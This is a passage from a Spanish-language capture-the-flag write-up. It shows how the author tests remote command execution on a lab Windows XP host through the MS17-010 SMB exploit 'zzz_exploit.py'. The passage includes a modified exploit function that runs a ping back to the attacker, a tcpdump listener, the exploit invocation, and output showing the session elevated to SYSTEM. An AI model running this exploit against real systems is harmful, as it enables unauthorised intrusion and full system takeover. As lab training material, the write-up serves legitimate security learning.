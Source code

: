 > archivo modificado para verificar si tenemos ejecución remota de comandos

```python
[...]
def smb_pwn(conn, arch):
          #smbConn = conn.get_smbconnection()
          #
          #print('creating file c:\\pwned.txt on the target')
          #tid2 = smbConn.connectTree('C$')
          #fid2 = smbConn.createFile(tid2, '/pwned.txt')
          #smbConn.closeFile(tid2, fid2)
          #smbConn.disconnectTree(tid2)
          
          #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
          service_exec(conn, r'cmd /c ping 10.10.14.4')                     
          # Note: there are many methods to get shell over SMB admin session
          # a simple method to get shell (but easily to be detected by AV) is
          # executing binary generated by "msfvenom -f exe-service ..."
[...]
```
Nos ponemos en escucha de los paquetes ICMP y lanzamos el exploit para ver si tenemos ejecución remota de comandos

```console
sudo tcpdump -i tun0 icmp -n
[sudo] password for mzapata: 
```

```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:42:21.676328 IP 10.10.10.4 > 10.10.14.4: ICMP echo request, id 512, seq 256, length 40
12:42:21.676350 IP 10.10.14.4 > 10.10.10.4: ICMP echo reply, id 512, seq 256, length 40
12:42:22.676625 IP 10.10.10.4 > 10.10.14.4: ICMP echo request, id 512, seq 512, length 40
12:42:22.676642 IP 10.10.14.4 > 10.10.10.4: ICMP echo reply, id 512, seq 512, length 40
12:42:23.676952 IP 10.10.10.4 > 10.10.14.4: ICMP echo request, id 512, seq 768, length 40
12:42:23.676976 IP 10.10.14.4 > 10.10.10.4: ICMP echo reply, id 512, seq 768, length 40
12:42:24.676435 IP 10.10.10.4 > 10.10.14.4: ICMP echo request, id 512, seq 1024, length 40
12:42:24.676458 IP 10.10.14.4 > 10.10.10.4: ICMP echo reply, id 512, seq 1024, length 40
```

```console
python2 zzz_exploit.py 10.10.10.4 browser
```

```
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86059da8
SESSION: 0xe2399a50
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1086538
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe10865d8
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service dvnY.....
Starting service dvnY.....
```

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>